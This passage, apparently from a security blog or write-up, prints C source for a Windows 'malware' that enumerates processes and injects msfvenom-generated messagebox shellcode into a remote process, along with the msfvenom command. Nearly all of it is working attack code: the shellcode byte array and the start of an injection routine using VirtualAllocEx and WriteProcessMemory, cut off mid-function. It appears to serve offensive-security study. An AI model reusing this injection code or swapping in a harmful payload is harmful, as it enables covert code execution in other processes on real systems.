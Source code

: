 Bellow is the full code of the "malware".

```c
/*
	Remote Process Enumeration and Injection with messagebox shellcode
	Date: 25/11/2024
	Author: T0nyC
*/

#include <windows.h>
#include <stdio.h>
#include <Psapi.h> // required to use EnumProcesses

// msfvenom windows/x64/messagebox payload
// msfvenom -p windows/x64/messagebox EXITFUNC=thread --var-name shellcode -f c
unsigned char shellcode[] =
	"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
	"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
	"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
	"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
	"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
	"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
	"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
	"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
	"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
	"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
	"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
	"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
	"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
	"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
	"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
	"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x3e\x48"
	"\x8d\x8d\x46\x01\x00\x00\x41\xba\x4c\x77\x26\x07\xff\xd5"
	"\x49\xc7\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x2a\x01\x00"
	"\x00\x3e\x4c\x8d\x85\x3b\x01\x00\x00\x48\x31\xc9\x41\xba"
	"\x45\x83\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6"
	"\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80"
	"\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89"
	"\xda\xff\xd5\x48\x65\x6c\x6c\x6f\x2c\x20\x66\x72\x6f\x6d"
	"\x20\x4d\x53\x46\x21\x00\x4d\x65\x73\x73\x61\x67\x65\x42"
	"\x6f\x78\x00\x75\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00";

BOOL InjectShellcode(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode) {

	printf("[+] Starting Shellcode injection ... \n");

	PVOID   pShellcodeAddress  = NULL;  // Pointer to the remotelly allocated buffer
	DWORD   dwOldProtection    = NULL;  // Will hold the old protection retrieved from VirtualProtectEx
	SIZE_T  sBytesWritten      = NULL;  // Will hold the number of bytes written from WriteProcessMemory
	HANDLE  hThread            = NULL;  // Handle to the thraed that lunches the shellcode.

	printf("[+] Allocating memory of size %d to remote process ... \n", sSizeOfShellcode);
	pShellcodeAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (pShellcodeAddress != NULL) {
		printf("[+] Trying to write shellcode to allocated memory at: 0x%p\n", pShellcodeAddress);

		// If WriteProcessMemory succeeds and the size of bytes written is the same as the size of the shellcode
		if (WriteProcessMemory(hProcess, pShellcodeAddress, pShellcode, sSizeOfShellcode, &sBytesWritten) && sBytesWritten == sSizeOfShellcode) {
```
